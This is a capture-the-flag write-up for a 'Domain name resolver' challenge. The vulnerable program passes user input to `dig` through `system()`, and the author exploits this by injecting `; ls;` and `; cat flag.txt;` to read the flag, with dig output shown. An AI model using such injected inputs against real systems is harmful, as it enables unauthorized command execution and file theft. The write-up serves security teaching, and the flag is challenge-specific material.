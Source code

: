 # Domain name resolver

Trying `nc rivit.dev 10004` gives us the prompt `Enter the hostname to be resolved:`, which we can test with `google.com` and yields:

```
142.250.12.101
142.250.12.100
142.250.12.139
142.250.12.102
142.250.12.113
142.250.12.138
```

I have no reason to think that this is incorrect.

We can download the `task` executable, and if we decompile with Ghidra, we get the following output for `main`:

![Ghidra Screenshot](Ghidra.png)

We can roughly outline what happens when the executable runs. The program prints `"Enter the hostname to be resolved: "` before callings `fgets` and placing the output in `local_158`. Given that a buffer size is set, a buffer overflow attack seems unlikely. The program uses `snprintf` to construct a string based off of `local_158` and place the result in `local_118`.

Here is where things get interesting. The string directly references the `dig` Linux command and runs the command using the `system` function, essentially running a Linux command in C to get the domains. Since we are inputting directly to `system`, we can try to inject our own command.

As an experiment, we send `google.com; ls;` as an input to the hostname question, which gives us:

```

Enter the hostname to be resolved: google.com; ls;

; <<>> DiG 9.18.18-0ubuntu0.22.04.2-Ubuntu <<>> google.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 48949
;; flags: qr rd ra; QUERY: 1, ANSWER: 6, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 512
;; QUESTION SECTION:
;google.com.                    IN      A

;; ANSWER SECTION:
google.com.             174     IN      A       142.250.12.138
google.com.             174     IN      A       142.250.12.100
google.com.             174     IN      A       142.250.12.101
google.com.             174     IN      A       142.250.12.102
google.com.             174     IN      A       142.250.12.139
google.com.             174     IN      A       142.250.12.113

;; Query time: 8 msec
;; SERVER: 8.8.8.8#53(8.8.8.8) (UDP)
;; WHEN: Wed Jul 17 19:40:38 UTC 2024
;; MSG SIZE  rcvd: 135

flag.txt
task
sh: 1: +short: not found
```

At the bottom, right before the `sh` error, we see that we've gotten two files in the current directory: `flag.txt` and `task`. We (hopefully) just need to read `flag.txt`, so we send:

```
Enter the hostname to be resolved: google.com; cat flag.txt;

; <<>> DiG 9.18.18-0ubuntu0.22.04.2-Ubuntu <<>> google.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 12118
;; flags: qr rd ra; QUERY: 1, ANSWER: 6, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 512
;; QUESTION SECTION:
;google.com.                    IN      A

;; ANSWER SECTION:
google.com.             81      IN      A       142.250.12.138
google.com.             81      IN      A       142.250.12.101
google.com.             81      IN      A       142.250.12.102
google.com.             81      IN      A       142.250.12.139
google.com.             81      IN      A       142.250.12.100
google.com.             81      IN      A       142.250.12.113

;; Query time: 8 msec
;; SERVER: 8.8.8.8#53(8.8.8.8) (UDP)
;; WHEN: Wed Jul 17 19:42:11 UTC 2024
;; MSG SIZE  rcvd: 135

CTFlearn{1s_c0mm4nd_1nj3ct10n_4_th1ng?}
sh: 1: +short: not found
```

So, our flag is `CTFlearn{1s_c0mm4nd_1nj3ct10n_4_th1ng?}`.


Further reading:

[https://cs155.stanford.edu/papers/formatstring-1.2.pdf](https://cs155.stanford.edu/papers/formatstring-1.2.pdf)

[https://wiki.sei.cmu.edu/confluence/pages/viewpage.action?pageId=87152177](https://wiki.sei.cmu.edu/confluence/pages/viewpage.action?pageId=87152177)

[https://owasp.org/www-community/attacks/Command_Injection](https://owasp.org/www-community/attacks/Command_Injection)
